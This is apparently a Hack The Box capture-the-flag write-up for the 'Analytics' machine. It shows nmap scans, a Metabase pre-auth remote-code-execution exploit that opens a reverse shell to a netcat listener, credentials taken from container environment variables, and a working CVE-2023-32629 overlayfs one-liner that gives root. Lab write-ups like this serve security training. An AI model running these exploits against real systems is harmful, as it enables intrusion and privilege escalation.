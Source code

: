 ```yaml
---
title: Hack the box Analytics pwned!
date: 2024-03-01 00:00:01 +0000
categories: [hack the box, machine]
tags: [hack the box, machine, analytics, docker, metabase, CVE-2023-32629]
img_path: /assets/img/posts/
---
```


## Machine info

![Analytics](htb-analytics-info.png)
*Analytics info*

## Annotations

>In this article we are going to assume the following ip addresses:
>
>Local machine (attacker, local host): 10.10.16.101
>
>Target machine (victim, Devvortex): 10.10.11.233
{: .prompt-info}

## Enumeration

If we list the open ports in the machine, we can see that there are two open ports: 22 (ssh) and 80 (http):

`nmap -Pn -n -sS -p- -T5 --min-rate 5000 -oN nmap_initial.txt 10.10.11.233`

```
22/tcp open  ssh
80/tcp open  http
```

## Footprinting

If we look for more information about the services running in those ports we will find the machine address:

`nmap -Pn -n -sVC -p22,80 10.10.11.233`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add the machine address to our `/etc/hosts`:

`echo "10.10.11.233 analytical.htb" | sudo tee -a /etc/hosts`

Now, we browse to the web to take a look.

![Analytics web](htb-analytics-web.png)
*Analytics web*

If we go to the login page it will not work:

![Analytics web login error](htb-analytics-web-login-error.png)
*Analytics web login error*

The login page it's under the domain `data.analytical.htb`, so let's add it to our `/etc/hosts`:

`echo "10.10.11.233 data.analytical.htb" | sudo tee -a /etc/hosts`

And, let's reload the login page

![Analytics web login page](htb-analytics-web-login.png)
*Analytics web login page*

## Foothold

### Docker container

We can see that is using `metabase`, so let's look for vulnerabilities:

`searchsploit metabase`

`Metabase 0.46.6 - Pre-Auth Remote Code Execution | linux/webapps/51797.py`

Ok, we got one. 
It's a remote shell, so we will start listening on our side:

`nc -lvnp 1234`

And, now we copy the script to our working directory and we run it:

`cp /opt/exploitdb/exploits/linux/webapps/51797.py metabase_exploit.py`

`sudo python3 metabase_exploit.py --lhost 10.10.16.101 --lport 1234 --sport 80 --url http://data.analytical.htb`

We got shell, but inside a docker container.
If we print the environment variables, we will find some credentials:

```
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=16a5278f5551
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8

META_USER=metalytics
META_PASS=fakepassword

MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=2
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
```

### metalytics

with our new credentials, we will login through ssh:

`ssh metalytics@10.10.11.233`

First, we get our user flag:

`cat user.txt`

And, now, we see that with our new user we will not be able to escalate privileges...

```
metalytics@analytics:~$ id
uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics)
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics: 
Sorry, user metalytics may not run sudo on localhost.
```

If we look the system version we can see that is a vulnerable Ubuntu version.

```
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/linux
```

The vulnerability is [CVE-2023-32629](https://nvd.nist.gov/vuln/detail/CVE-2023-32629), so we will exploit it to gain root privileges:

`unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'`

Now that we are root, we can get our system flag:

`cat /root/root.txt`

## Pwned

![Analytics](htb-analytics-pwned.png)
*Analytics has been Pwned*

*Enjoy! ;)*
